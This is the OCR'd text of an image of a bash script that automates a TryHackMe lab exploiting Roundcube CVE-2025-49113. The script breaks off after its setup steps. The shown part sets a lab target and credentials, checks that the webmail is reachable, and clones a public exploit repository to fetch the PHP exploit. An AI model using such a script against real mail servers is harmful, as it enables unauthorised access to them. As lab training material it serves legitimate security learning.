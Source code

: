 ## Automated Exploitation Script

For convenience, here's the complete automation script based on the provided bash script:

```bash
#!/bin/bash

# Roundcube CVE-2025-49113 Exploitation Script
# TryHackMe Room Solver

TARGET_IP="10.10.70.29"  # Replace with your machine IP
ROUNDCUBE_URL="http://$TARGET_IP/roundcube"
USERNAME="ellieptic"
PASSWORD="ChangeMe123"

echo "=============================================="
echo "Roundcube CVE-2025-49113 Exploitation Script"
echo "=============================================="
echo "Target IP: $TARGET_IP"
echo "Roundcube URL: $ROUNDCUBE_URL"
echo "Username: $USERNAME"
echo ""

# Function to check if target is reachable
check_target() {
    echo "Checking if target is reachable..."
    if ping -c 1 "$TARGET_IP" >/dev/null 2>&1; then
        echo "✓ Target is reachable"
    else
        echo "✗ Target is not reachable"
        exit 1
    fi
    
    if curl -s "$ROUNDCUBE_URL" >/dev/null; then
        echo "✓ Roundcube is accessible"
    else
        echo "✗ Roundcube is not accessible"
        exit 1
    fi
}

# Download the exploit if not present
setup_exploit() {
    echo ""
    echo "Setting up exploit..."
    
    if [ ! -d "CVE-2025-49113" ]; then
        echo "Cloning exploit repository..."
        git clone https://github.com/fearsoff-org/CVE-2025-49113 2>/dev/null
        
        if [ $? -ne 0 ]; then
            echo "Git clone failed. Please download exploit manually."
            echo "Visit: https://github.com/fearsoff-org/CVE-2025-49113"
            exit 1
        fi
    else
        echo "✓ Exploit directory already exists"
    fi
    
    cd CVE-2025-49113
    if [ ! -f "CVE-2025-49113.php" ]; then
        echo "✗ Exploit file not found"
        exit 1
    fi
```